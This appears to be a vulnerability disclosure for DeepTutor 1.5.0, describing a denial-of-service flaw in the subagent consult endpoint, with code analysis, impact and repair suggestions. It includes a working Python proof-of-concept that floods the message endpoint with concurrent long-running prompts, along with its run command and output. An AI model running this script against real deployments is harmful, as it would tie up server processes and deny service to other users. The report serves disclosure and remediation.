


# DeepTutor has a denial of service vulnerability in the subagent consult interface

## supplier

https://github.com/HKUDS/DeepTutor

## affected version

DeepTutor 1.5.0

Docker image:

```text
ghcr.io/hkuds/deeptutor:latest
sha256:2c968ae8f408405cd39406431423a4e89d7572d038c1be2aaebf6bdd7a2ced5d
```

## Vulnerability file

```text
deeptutor/api/routers/subagents.py
deeptutor/capabilities/subagent/tools.py
deeptutor/services/subagent/process.py
deeptutor/services/subagent/base.py
```

## describe

DeepTutor has a denial of service vulnerability in the subagent consult interface.

The vulnerable interfaces are:

```text
POST /api/v1/subagents/connections/{name}/message
consult_subagent
```

When a subagent is connected, DeepTutor starts an external subagent process and waits for the consult to finish. This path has no effective runtime timeout, per-connection concurrency limit, global queue limit, or cancellation when the HTTP client disconnects.

An attacker who can access the subagent message interface can submit prompts that induce long-running subagent work, such as open-ended investigation, retry, or continuation tasks. Each request can keep a backend async task and external subagent process alive after the client times out. In local reproduction, concurrent prompt-driven consult requests all hung until client timeout while the server-side consult processes continued running, making the subagent consult service unavailable and consuming shared backend resources.

## code analysis

The chat tool directly waits for the subagent backend to finish the consult:

```python
result = await backend.consult(
    question,
    on_event=on_event,
    cwd=spec.get("cwd") or None,
    session_id=state.get("session_id"),
    config=spec.get("config"),
)
```

The direct message route creates a background task, but its `finally` block waits for the task instead of cancelling it. If the client disconnects or times out, the server-side consult can continue to run:

```python
task = asyncio.create_task(run())

finally:
    if not task.done():
        await task
```

The process runner launches the subagent command and waits for the process to exit. No consult runtime limit is enforced around the subprocess:

```python
process = await asyncio.create_subprocess_exec(
    *cmd,
    cwd=cwd or None,
    env=full_env,
)

returncode = await process.wait()
```

Vulnerability point:



## PoC

The following script sends concurrent long-running consult requests to a connected subagent:

```python
import concurrent.futures
import datetime as dt
import json
import sys
import time
import urllib.request

target = sys.argv[1].rstrip("/")
connection = sys.argv[2] if len(sys.argv) > 2 else "slow-codex"
concurrency = int(sys.argv[3]) if len(sys.argv) > 3 else 16
requests = int(sys.argv[4]) if len(sys.argv) > 4 else 16
timeout = float(sys.argv[5]) if len(sys.argv) > 5 else 6

def now():
    return dt.datetime.now().strftime("%Y-%m-%d %H:%M:%S")

def consult_once(i):
    payload = {
        "chat_session_id": f"subagent-long-consult-{int(time.time())}-{i}",
        "message": "Please do a long-running investigation and keep working until finished.",
    }
    req = urllib.request.Request(
        f"{target}/api/v1/subagents/connections/{connection}/message",
        data=json.dumps(payload).encode("utf-8"),
        method="POST",
        headers={"Content-Type": "application/json"},
    )
    try:
        with urllib.request.urlopen(req, timeout=timeout) as resp:
            while True:
                line = resp.readline()
                if not line:
                    break
                text = line.decode("utf-8", errors="replace")
                if '"done": true' in text or '"done":true' in text:
                    return False
    except Exception:
        return True
    return True

print(
    f"[{now()}] attack_start endpoint=/api/v1/subagents/connections/{connection}/message "
    f"requests={requests} concurrency={concurrency} timeout={timeout}s",
    flush=True,
)

hung = 0
with concurrent.futures.ThreadPoolExecutor(max_workers=concurrency) as pool:
    for result in pool.map(consult_once, range(requests)):
        hung += 1 if result else 0

print(f"[{now()}] RESULT=LONG_CONSULT_DOS_REPRODUCED hung={hung}/{requests}", flush=True)
```

Run:

```bash
python poc_subagent_long_consult_dos.py http://target:8001 slow-codex 16 16 6
```

The subagent consult interface became unavailable during the attack:

```text
[2026-07-07 17:33:03] attack_start endpoint=/api/v1/subagents/connections/slow-codex/message requests=16 concurrency=16 timeout=6.0s
[2026-07-07 17:33:10] completed=False latency=6.411s hung=1 detail=TimeoutError(timed out) saw_event=True
[2026-07-07 17:33:10] completed=False latency=6.537s hung=8 detail=TimeoutError(timed out) saw_event=True
[2026-07-07 17:33:10] completed=False latency=6.518s hung=16 detail=TimeoutError(timed out) saw_event=True
[2026-07-07 17:33:10] RESULT=LONG_CONSULT_DOS_REPRODUCED hung=16/16
```

Reproduction screenshot:



## impact

Attackers who can access the subagent consult interface can force long-running subagent jobs to remain active on the server. Multiple requests can occupy backend async tasks and external subagent processes, making the subagent consult service unavailable and degrading shared DeepTutor resources for other users.

The issue is especially risky in deployments where subagent access is available to normal users, because the attack uses the normal HTTP message interface and does not require malformed packets or administrator access.

## repair suggestion

1. Add a maximum runtime timeout for every subagent consult.
2. Cancel the backend consult task when the HTTP client disconnects.
3. Terminate the child subagent process when the request is cancelled or times out.
4. Add per-user, per-connection, and global concurrency limits for subagent consults.
5. Add a queue depth limit and rate limit to `/api/v1/subagents/connections/{name}/message`.
6. Track consult budget by runtime and resource usage, not only by the number of consult calls.
